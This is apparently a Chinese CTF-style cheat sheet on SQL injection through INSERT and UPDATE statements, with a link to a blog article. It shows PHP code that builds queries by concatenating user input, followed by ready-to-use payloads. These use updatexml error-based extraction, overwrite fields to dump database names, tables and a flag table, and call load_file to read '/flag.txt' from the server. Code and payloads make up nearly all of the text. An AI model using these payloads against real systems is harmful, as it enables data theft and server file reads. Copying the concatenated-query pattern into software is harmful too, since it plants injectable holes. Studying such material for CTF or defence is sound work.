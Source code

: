 这里代表一定的非select注入。
<https://www.cnblogs.com/babers/articles/7252401.html>
## **insert注入**
**1、如果存在报错回显，使用报错**
```
如：
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));//报错回显
	}
```
```
dpt_name=aa&dpt_address=aa&dpt_build_year=2021-04-02&dpt_has_cert=on&dpt_cert_number=a&dpt_telephone_number=xxx' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from  sds_fl9g),20,30),0x7e),1)#
```

^
2、**插入记录回显注入**
插入记录后，或修改记录后，有回显，如列表。
使用select语句或union联合注入。
```
$dpt_name="(select database())";
$sql="insert into user set name='".$dpt_name."';";
```
```
dpt_name=3&dpt_address=3&dpt_build_year=2024-12-11&dpt_has_cert=on&dpt_cert_number=3',sds_telephone=database()#

dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())#
dpt_name=1',sds_address=(select flag from sds_fl9g)#
```

^
## **update的注入**
```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

如果在代码中可知
update语句中，在update后面有注入，
即old_address=$row['address']
```
1、修改前面字段值
```
可以通过注入修改此时的前面字段的值，如address字段
',`address`=database()#

',`address`=(select(load_file("/flag.txt")))#
```
2、where报错注入
```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
```